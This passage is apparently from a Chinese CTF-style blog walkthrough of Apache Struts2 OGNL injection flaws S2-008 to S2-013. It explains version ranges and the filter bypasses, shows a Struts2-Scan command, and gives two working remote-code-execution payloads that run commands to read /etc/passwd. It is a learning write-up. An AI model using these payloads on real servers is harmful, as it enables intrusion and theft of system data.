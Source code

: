 [S2-008 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-008/README.zh-cn.md)
[Struts 2 漏洞专题 | S2-008 ](https://www.cnblogs.com/Feng-L/p/13644818.html)

#### [struts2]s2-009
影响版本: 2.1.0 - 2.3.1.1
>Struts2对s2-003的修复方法是禁止静态方法调用，在s2-005中可直接通过OGNL绕过该限制，对于`#`号，同样使用编码`\u0023`或`\43`进行绕过；于是Struts2对s2-005的修复方法是禁止`\`等特殊符号，使用户不能提交反斜线。
但是，如果当前action中接受了某个参数`example`，这个参数将进入OGNL的上下文。所以，我们可以将OGNL表达式放在`example`参数中，然后使用`/helloword.acton?example=<OGNL statement>&(example)('xxx')=`1的方法来执行它，从而绕过官方对`#`、`\`等特殊字符的防御。

学到了一个工具：[https://github.com/HatBoy/Struts2-Scan](https://github.com/HatBoy/Struts2-Scan)
![](https://img-blog.csdnimg.cn/20201023150148179.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)进行扫描：`python3 Struts2Scan.py -u http://node3.buuoj.cn:29142/`，没扫描出来，因为工具默认参数为key

POC如下：
```java
http://node3.buuoj.cn:29142/ajax/example5?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%22cat%20/etc/passwd%22).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```
![](https://img-blog.csdnimg.cn/20201023151118198.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)

[S2-009 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-009/README.zh-cn.md)
[S2-009远程代码执行复现 ](http://luckyzmj.cn/posts/1a3db16d.html)
#### [struts2]s2-012
影响版本: 2.1.0 - 2.3.13
如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：
```html
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```
这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

直接祭出s2-001中的回显POC：
```jsp
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
![](https://img-blog.csdnimg.cn/20201019220320673.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)

参考文章：
[S2-012 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-012/README.zh-cn.md)
#### [struts2]s2-013
S2-013/S2-014 远程代码执行漏洞
影响版本: 2.0.0 - 2.3.14.1
>Struts2 标签中 `<s:a>` 和 `<s:url>` 都包含一个 includeParams 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：
none - 链接不包含请求的任意参数值（默认）
get - 链接只包含 GET 请求中的参数和其值
all - 链接包含 GET 和 POST 所有参数和其值
`<s:a>`用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行OGNL渲染，造成任意命令执行漏洞。
